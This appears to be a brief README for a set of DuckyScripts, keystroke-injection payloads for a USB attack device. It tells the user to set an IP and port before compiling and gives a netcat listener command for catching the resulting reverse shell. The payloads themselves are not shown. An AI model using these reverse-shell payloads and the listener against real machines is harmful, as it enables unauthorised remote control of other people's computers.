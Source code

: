 # DuckyScripts

Make sure you change the ip and port values before compiling using https://payloadstudio.com/community/

Run the below command server side to catch shell
stty raw -echo; (stty size; cat) | nc -lvnp <port>
